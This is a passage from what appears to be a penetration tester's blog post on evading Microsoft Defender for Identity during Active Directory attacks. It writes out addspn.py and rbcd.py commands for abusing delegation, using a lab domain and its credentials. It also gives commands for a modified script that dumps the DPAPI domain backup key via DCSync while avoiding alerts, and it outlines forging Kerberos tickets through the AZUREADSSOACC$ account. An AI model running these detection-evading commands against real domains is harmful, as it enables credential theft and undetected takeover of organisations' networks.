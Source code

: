 ```bash
python addspn.py --target-type samname -t daenerys.targaryen --spn "cifs/meereen.essos.local" \\
-u 'essos.local\daenerys.targaryen' -p 'BurnThemAll!AndAll' -dc-ip 192.168.56.12 -q meereen.essos.local

python addspn.py --target-type samname -t daenerys.targaryen --spn "cifs/meereen.essos.local" \\ 
-u 'essos.local\daenerys.targaryen' -p 'BurnThemAll!AndAll' -dc-ip 192.168.56.12 -c meereen.essos.local

# read
proxychains4 rbcd.py -use-ldaps -delegate-to "meereen$" -delegate-from daenerys.targaryen -action read \\ 
essos.local/daenerys.targaryen:'BurnThemAll!AndAll' -debug

# remove
rbcd.py -use-ldaps -delegate-to "meereen$" -delegate-from daenerys.targaryen -action remove \\ 
essos.local/daenerys.targaryen:'BurnThemAll!AndAll' -debug
```

## DPAPI

If you like to put screenshots of firewalls or backup admin web panels in your reports, then you'll likely want to extract browser credentials in post exploitation. The DPAPI (Data Protection API) backup key is a critical component of how DPAPI functions, enabling recovery of protected data when the original encryption keys are unavailable. In a domain environment, the backup key is managed by the Domain Controller and of course this seems a highly likely way to get caught trying to extract this. As of end of 2024 there is no alert (out-of-the-box) for dumping the domain backup key via DCSync. The standard tool from impacket extracts the keys via LDAP and NTDIS.dit, which should indeed trigger an [alert](https://learn.microsoft.com/en-us/defender-for-identity/credential-access-alerts#malicious-request-of-data-protection-api-master-key-external-id-2020)  so I modified a version of this script to get the backup key via DRSUAPI. In combination with a DC hash this had given zero alerts so far. You can find my script on Github [here](https://github.com/cschwarz1/dcsyncdpapikey),these are the commands:

```bash
# full chain
python3 dcsyncdpapikey.py domain/user:'pw'@target

# just dump GUIDS for backupkey via LDAP with a admin account, useful for OPSEC if you want to dcsync with DC machine hash
python3 dcsyncdpapikey.py domain/user:'pw'@target -ldap-only

# dump key via DCSync with extracted GUID
python3 dcsyncdpapikey.py domain/DC\$@target -hashes :hash -key-only --guid GUID
```


## Improvements Over Previous Versions Of MDI

Over the years, some changes have been implemented, and this was not previously flagged. Exercise caution when performing the following actions.

**KeyCredentials on Sensitive Accounts:** Setting a `KeyCredential` on sensitive accounts like Domain Admins has always triggered high-severity alerts. However, this has not typically been the case for machine accounts. An attack chain which I used commonly when targeting Azure cloud environments often involves compromising the AD Sync account, also known as `AZUREADSSOACC$`. This account is a machine account created automatically by Azure Active Directory Connect when Seamless Single Sign-On (Seamless SSO) is enabled. It acts as a service account in Active Directory (AD) to securely manage authentication between on-premises AD and Azure AD and with the comporimised NTLM hash it is possible to impersonate all cloud-synced user accounts via forged Kerberos service tickets. With a recent update, Microsoft has begun including the `AZUREADSSOACC$` object among accounts monitored for changes. Exercise caution when modifying this account, as it is crucial for seamless authentication. For more details, refer to the [official documentation](https://learn.microsoft.com/en-us/defender-for-identity/whats-new#august-2024).

